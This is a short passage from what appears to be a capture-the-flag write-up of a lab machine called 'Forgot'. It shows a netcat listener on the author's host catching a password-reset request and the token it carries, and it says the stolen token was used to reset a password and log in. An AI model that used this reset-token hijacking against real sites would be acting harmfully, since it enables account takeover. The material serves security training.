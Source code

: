 Here is the token we got

```bash
➜  sudo nc -nlvp 80
[sudo] password for d0n: 
Listening on 0.0.0.0 80
Connection received on 10.10.11.188 55928
GET /reset?token=<your-token> HTTP/1.1
Host: 10.10.14.115
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```
{: .nolineno }

Once the cookie stolen, we can reset the password and log in with the new password

home page

![Screenshot 2022-12-16 at 22-49-04 Support Portal.png](/Assets/Pictures/Forgot/Screenshot_2022-12-16_at_22-49-04_Support_Portal.png)

tickets
